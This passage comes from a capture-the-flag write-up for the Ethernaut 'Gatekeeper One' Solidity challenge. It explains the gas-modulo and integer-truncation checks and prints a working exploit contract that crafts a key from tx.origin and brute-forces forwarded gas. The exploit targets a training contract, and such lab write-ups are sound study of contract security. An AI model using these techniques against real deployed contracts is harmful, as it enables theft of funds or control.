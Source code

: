 This challenge requires us to pass 3 gates, each representing a condition using modifiers and require statements. "gateOne" is the same condition as "Telephone" challenge. coming to "gateTwo", it checks if gasleft modulo 8191 is 0 or not. gasleft is the amount of gas remaining for rest of the execution. When calling from a contract, we can set the amount of gas we want to forward, so, that gas amount can be bruteforced until this check passes. "gateThree" depends on the uint conversion. When a uint is converted to a lower size "uint", the resulting value will be lower size bits of the original value. So, to pass

```solidity
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
```

uint16 takes lower 16 bits, whereas uint32 takes lower 32 bits, to make them to be equal we can set bits 16-31 to 0 given bits are numbered with lsb as 0.

```solidity
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
```

upper 32 bits of uint64(_gateKey) should not be 0. The last check is

```solidity
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
```

This requires lower 16 bits to be equal lower 16 bits of tx.origin.

final exploit is
```solidity
contract GateKeeperOneExploit {
    constructor(address gateKeeperInstance) public {
        
        uint64 key = 0;
        key = key ^ uint16(tx.origin);
        key = key ^ (1 << 32);
        uint gasLimit = 5000000;
        for (uint i = 0; i < 8191; i++) {
            (bool check, bytes memory result) = gateKeeperInstance.call{gas: gasLimit + i}(abi.encodeWithSignature("enter(bytes8)", bytes8(key)));
            if (check) {
                break;
            }
        }
    }
    
}
```

---

# <a name="gatekeepertwo"></a> 14. Gatekeeper Two
\[[top](#top)\]
